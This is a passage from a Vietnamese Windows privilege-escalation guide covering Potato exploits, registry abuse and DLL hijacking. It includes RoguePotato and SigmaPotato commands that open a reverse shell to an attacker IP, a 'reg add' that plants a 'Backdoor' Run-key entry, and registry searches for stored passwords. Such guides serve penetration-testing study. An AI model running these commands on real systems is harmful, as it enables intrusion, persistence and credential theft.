 **RoguePotato** (Windows 10/Server 2019)
```cmd
RoguePotato.exe -r <attacker_ip> -e "C:\path\to\reverse_shell.exe" -l 9999
```

**SigmaPotato** (Windows 10/Server 2019)
```cmd
SigmaPotato.exe <cmd>
SigmaPotato.exe --revshell <ip> <port>
```

#### 4.3.5. Registry Exploits

Registry Windows chứa nhiều thông tin quan trọng có thể bị khai thác để leo thang đặc quyền.

##### AutoRun Keys

```powershell
## Kiểm tra các AutoRun keys
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

## Kiểm tra quyền
accesschk.exe -wvu "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

## Thêm payload
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\path\to\malicious.exe" /f
```

##### Credentials in Registry

```powershell
## Tìm kiếm mật khẩu trong registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

## Kiểm tra AutoLogon credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

#### 4.3.6. DLL Hijacking

DLL hijacking xảy ra khi một ứng dụng tìm kiếm các DLL theo thứ tự không an toàn, cho phép kẻ tấn công đặt DLL độc hại để được nạp thay vì DLL chính hãng.

##### Tìm DLL tiềm năng

```powershell
## Sử dụng Process Monitor để theo dõi
## Filter: Result is "NAME NOT FOUND" và Path kết thúc bằng ".dll"

## Kiểm tra quyền trên thư mục
icacls "C:\Program Files\Vulnerable Application"
```
